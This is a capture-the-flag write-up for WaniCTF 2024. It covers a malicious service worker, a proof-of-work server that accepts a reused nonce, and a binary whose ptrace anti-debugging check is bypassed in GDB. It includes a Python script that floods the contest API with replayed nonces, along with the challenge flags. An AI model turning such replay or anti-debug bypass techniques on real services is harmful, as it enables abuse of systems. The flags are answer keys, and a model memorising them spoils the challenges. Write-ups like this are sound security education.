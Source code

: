 ```yaml
---
layout: writeup
category: WaniCTF
chall_description: 
points: 
solves: 
tags: 
date: 2024-06-21
comments: false
---
```



# Web

## Bad Worker

Javascript file named service-worker.js reveals that whenever we ask for the flag, a request goes to server for `DUMMY.txt` instead.
![Branching](/assets/CTFs/WaniCTF/bad-worker1.png)

Sending FLAG.txt to get the flag.
![Branching](/assets/CTFs/WaniCTF/bad-worker2.png)


Flag: `FLAG{pr0gr3ssiv3_w3b_4pp_1s_us3fu1}`



## POW

Javascript file sends a request to `/api/pow` with current number which keeps increasing with no progress.
After waiting for some time we finally get one increment it progress, which is at 2862152, let's see the response in burp.
![Branching](/assets/CTFs/WaniCTF/pow1.png)

Sending the same request results to server results in progress increment meaning server is not storing previously sent values so we can just send same number again.

I wrote the following script in Python to get teh flag

```py
import httpx

client = httpx.Client(http2=True)
url = "https://web-pow-lz56g6.wanictf.org/" 

while True:
    payload = '[ ' + '"2862152",'*100000 + '"2862152"]'
    response = client.post(url+"api/pow", data=payload )
    
    print(response.text )
    if (response.text).startswith("FLAG"):
        print(response.text )
        exit()

```

```shell
┌──(kali㉿kali)-[~/…/CTF/WaniCTF/web/pow]
└─$ python3 solve.py
progress: 100001 / 1000000
progress: 200002 / 1000000
progress: 300003 / 1000000
progress: 400004 / 1000000
progress: 500005 / 1000000
progress: 600006 / 1000000
progress: 700007 / 1000000
progress: 800008 / 1000000
progress: 900009 / 1000000
FLAG{N0nCE_reusE_i$_FUn}
FLAG{N0nCE_reusE_i$_FUn}

```

FLAG: `FLAG{N0nCE_reusE_i$_FUn}`


# Reverse 


## Home


Loading the binary in Ghidra to check the dissassembly.
![Branching](/assets/CTFs/WaniCTF/home1.png)


We need to have Service somewhere in our full path. It also checks for PTRACE which is used by GDB. We can easily bypass that in GDB by placing breakpoint where the condition check happens for PTRACE detection and change the value of RAX to 0.
![Branching](/assets/CTFs/WaniCTF/home2.png)


Put breakpoint anywhere at the end of `constructFlag` function and dump stack values to get the flag.

![Branching](/assets/CTFs/WaniCTF/home3.png)


Flag: `FLAG{How_did_you_get_here_4VKzTLibQmPaBZY4}`


